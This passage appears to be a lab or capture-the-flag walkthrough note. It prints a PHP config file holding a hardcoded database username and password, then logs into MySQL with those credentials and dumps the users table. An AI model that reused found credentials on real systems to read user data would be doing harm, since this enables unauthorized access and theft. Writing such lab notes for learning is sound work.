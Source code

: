 
```
<?php

define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');

$connection = mysqli_connect(DB_SRV, DB_USER, DB_PASSWD, DB_NAME);

if($connection == false){

        die("Error: Connection to Database could not be made." . mysqli_connect_error());
}
?>
```


Now will try to login and see what data we can get from it 
```
mysql -u <username> -p -h 127.0.0.1
```

```
mysql -u admin -p -h 127.0.0.1
```

I was using the wrong ip and this is the ip address that we have to use 
```
mysql -h 192.168.100.1 -u admin -p
```

```
!123SecureAdminDashboard321!
```


![[Pasted image 20240214212640.png]]

```
use DashboardDB
```

```
show tables
```
![[Pasted image 20240214222335.png]]

```
select * from users
```
![[Pasted image 20240214222647.png]]

